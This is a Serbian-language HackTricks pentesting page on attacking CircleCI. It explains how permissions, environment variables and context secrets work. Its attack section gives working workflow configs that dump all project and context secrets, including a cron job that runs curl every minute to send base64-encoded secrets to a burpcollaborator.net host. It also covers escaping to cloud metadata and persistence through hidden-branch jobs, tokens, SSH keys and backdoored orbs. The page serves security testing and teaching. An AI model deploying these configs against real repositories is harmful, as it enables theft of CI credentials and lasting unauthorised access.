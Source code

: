 # CircleCI Security

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

## Osnovne informacije

[**CircleCI**](https://circleci.com/docs/2.0/about-circleci/) je platforma za kontinualnu integraciju gde možete **definisati šablone** koji pokazuju šta želite da uradi sa nekim kodom i kada to da uradi. Na ovaj način možete **automatizovati testiranje** ili **implementacije** direktno **iz vaše glavne grane repozitorijuma** na primer.

## Dozvole

**CircleCI** **nasleđuje dozvole** od github-a i bitbucket-a koje se odnose na **nalog** koji se prijavljuje.\
U mom testiranju proverio sam da sve dok imate **dozvole za pisanje nad repozitorijumom u github-u**, moći ćete da **upravljate postavkama projekta u CircleCI-u** (postavite nove ssh ključeve, dobijete api ključeve projekta, kreirate nove grane sa novim CircleCI konfiguracijama...).

Međutim, morate biti **admin repozitorijuma** kako biste **pretvorili repozitorijum u CircleCI projekat**.

## Env promenljive i Tajne

Prema [**dokumentaciji**](https://circleci.com/docs/2.0/env-vars/) postoje različiti načini za **učitavanje vrednosti u okružne promenljive** unutar radnog toka.

### Ugrađene env promenljive

Svaki kontejner pokrenut od strane CircleCI-ja uvek će imati [**specifične env promenljive definisane u dokumentaciji**](https://circleci.com/docs/2.0/env-vars/#built-in-environment-variables) poput `CIRCLE_PR_USERNAME`, `CIRCLE_PROJECT_REPONAME` ili `CIRCLE_USERNAME`.

### Čisti tekst

Možete ih deklarisati u čistom tekstu unutar **komande**:
```yaml
- run:
name: "set and echo"
command: |
SECRET="A secret"
echo $SECRET
```
Možete ih deklarisati u čistom tekstu unutar **run environment**-a:
```yaml
- run:
name: "set and echo"
command: echo $SECRET
environment:
SECRET: A secret
```
Možete ih deklarisati u običnom tekstu unutar **build-job okruženja**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
Možete ih deklarisati u čistom tekstu unutar **okruženja kontejnera**:
```yaml
jobs:
build-job:
docker:
- image: cimg/base:2020.01
environment:
SECRET: A secret
```
### Projektni tajni

Ovo su **tajne** do kojih će imati pristup samo **projekat** (od **bilo koje grane**).\
Možete ih videti **deklarisane u** _https://app.circleci.com/settings/project/github/\<org\_ime>/\<repo\_ime>/environment-variables_

![](<../.gitbook/assets/image (129).png>)

{% hint style="danger" %}
Funkcionalnost "**Uvoz varijabli**" omogućava **uvoz varijabli iz drugih projekata** u ovaj.
{% endhint %}

### Kontekstne tajne

Ovo su tajne koje su **org široke**. Po **podrazumevanim postavkama, svaki repozitorijum** će moći da **pristupi bilo kojoj tajni** ovde sačuvanoj:

![](<../.gitbook/assets/image (123).png>)

{% hint style="success" %}
Međutim, imajte na umu da se može **izabrati druga grupa (umesto Svi članovi)** kako bi se **pristup tajnama omogućio samo određenim osobama**.\
Ovo je trenutno jedan od najboljih načina da se **poveća bezbednost tajni**, da se ne dozvoli svima pristup već samo nekima.
{% endhint %}

## Napadi

### Pretraga tajni u čistom tekstu

Ako imate **pristup VCS-u** (kao što je github) proverite datoteku `.circleci/config.yml` **svakog repozitorijuma na svakoj grani** i **tražite** potencijalne **tajne u čistom tekstu** sačuvane u njima.

### Tajne Env Vars & enumeracija konteksta

Proverom koda možete pronaći **sve nazive tajni** koje se **koriste** u svakoj `.circleci/config.yml` datoteci. Takođe možete dobiti **nazive konteksta** iz tih datoteka ili ih proveriti u veb konzoli: _https://app.circleci.com/settings/organization/github/\<org\_ime>/contexts_.

### Izvlačenje projektnih tajni

{% hint style="warning" %}
Da biste **izvukli SVE** projektni i kontekstne **TAJNE** potrebno je da imate **PISAN** pristup **samo jednom repozitorijumu** u celoj github organizaciji (_i vaš nalog mora imati pristup kontekstima, ali podrazumevano svako može pristupiti svakom kontekstu_).
{% endhint %}

{% hint style="danger" %}
Funkcionalnost "**Uvoz varijabli**" omogućava **uvoz varijabli iz drugih projekata** u ovaj. Stoga, napadač bi mogao **uvoziti sve projektne varijable iz svih repozitorijuma** a zatim **izvući sve odjednom**.
{% endhint %}

Sve projektne tajne uvek su postavljene u env poslovima, pa će samo pozivanje env i njegovo zatamnjivanje u base64 izvući tajne u **web konzoli dnevnika radnih tokova**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env
```
Ako **nemate pristup web konzoli** ali imate **pristup repozitorijumu** i znate da se koristi CircleCI, možete jednostavno **kreirati radni tok** koji se **pokreće svake minute** i koji **iznosi tajne podatke na spoljnu adresu**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env
```
### Iznesi Tajne Konteksta

Potrebno je **navesti ime konteksta** (ovo će takođe izneti tajne projekta):
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "env | base64"

workflows:
exfil-env-workflow:
jobs:
- exfil-env:
context: Test-Context
```
Ako **nemate pristup web konzoli** ali imate **pristup repozitorijumu** i znate da se koristi CircleCI, možete jednostavno **izmeniti radni tok** koji se **pokreće svaki minut** i koji **iznosi tajne informacije na spoljnu adresu**:
```yaml
version: 2.1

jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- run:
name: "Exfil env"
command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
exfil-env-workflow:
triggers:
- schedule:
cron: "* * * * *"
filters:
branches:
only:
- circleci-project-setup
jobs:
- exfil-env:
context: Test-Context
```
{% hint style="warning" %}
Samo kreiranje novog `.circleci/config.yml` u repozitorijumu **nije dovoljno da pokrene circleci izgradnju**. Morate ga **omogućiti kao projekat u circleci konzoli**.
{% endhint %}

### Bekstvo u oblak

**CircleCI** vam pruža opciju da pokrenete **vaše izgradnje na njihovim mašinama ili na vašim sopstvenim**.\
Podrazumevano, njihove mašine se nalaze u GCP-u, i na početku nećete moći da pronađete ništa relevantno. Međutim, ako žrtva pokreće zadatke na **svojim mašinama (potencijalno, u oblaku)**, možda ćete pronaći **krajnju tačku metapodataka u oblaku sa zanimljivim informacijama**.

Primetite da su u prethodnim primerima pokrenuti svi procesi unutar docker kontejnera, ali takođe možete **zatražiti pokretanje VM mašine** (koja može imati različite dozvole u oblaku):
```yaml
jobs:
exfil-env:
#docker:
#  - image: cimg/base:stable
machine:
image: ubuntu-2004:current
```
Ili čak docker kontejner sa pristupom udaljenoj docker usluzi:
```yaml
jobs:
exfil-env:
docker:
- image: cimg/base:stable
steps:
- checkout
- setup_remote_docker:
version: 19.03.13
```
### Upornost

* Moguće je **kreirati korisničke tokene u CircleCI-u** kako bi se pristupilo API endpointima sa korisničkim pristupom.
* _https://app.circleci.com/settings/user/tokens_
* Moguće je **kreirati tokens projekata** kako bi se pristupilo projektu sa dozvolama date tokenu.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/api_
* Moguće je **dodati SSH ključeve** projektima.
* _https://app.circleci.com/settings/project/github/\<org>/\<repo>/ssh_
* Moguće je **kreirati cron posao u skrivenoj grani** u neočekivanom projektu koji **otkriva** sve **kontekstne env** varijable svakodnevno.
* Ili čak kreirati u grani / izmeniti poznati posao koji će **otkriti** sve kontekste i **tajne projekta** svakodnevno.
* Ako ste vlasnik na Github-u možete **omogućiti neverifikovane orbite** i konfigurisati jednu u poslu kao **stražnja vrata**
* Možete pronaći **ranjivost ubacivanja komandi** u nekom zadatku i **ubaciti komande** putem **tajnog** modifikujući njegovu vrednost

<details>

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova podnošenjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijumima.

</details>
{% endhint %}
